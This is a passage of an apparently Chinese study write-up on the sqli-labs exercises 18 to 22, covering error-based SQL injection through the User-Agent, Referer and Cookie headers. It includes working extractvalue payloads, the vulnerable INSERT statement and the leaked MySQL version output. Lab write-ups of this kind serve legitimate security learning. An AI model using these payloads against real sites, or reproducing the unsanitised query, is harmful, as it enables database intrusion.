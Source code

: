 ```php
  }
  ```

## HTTP Injection

### Less 18 Uagent field / Error based

username:admin,password:1;登录成功后显示`IP`(**REMOTE_ADDR**方式获取，不易伪造)以及`User Agent`信息, **User-Agent**字段存在注入点。

```sql
# Payload
User-Agent: ' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
# 回显
XPATH syntax error: '~5.7.23-0ubuntu0.16.04.1~'
```

### Less 19 Referer field / Error based

```sql
# code
$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
# payload
' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
# 回显
XPATH syntax error: '~5.7.23-0ubuntu0.16.04.1~'
```

### Less 20 Cookie Injection / Uagent field

![](/assets/images/move/1551451323683-caaadf24-eec8-4d9d-bb7f-37084ed27a8f.png)

Cookie: `uname = admin' and extractvalue(1,concat(0x7e,(select @@basedir),0x7e))#`。

![](/assets/images/move/1551451651325-788dfe81-f2f3-4d76-8a73-74401ed905d7.png)


Less 21 、Less 22 `cookie`进行了base64 encode, 分别为单引号和双引号闭合，注入姿势相同~

> 参考: 《MySQL注入天书》


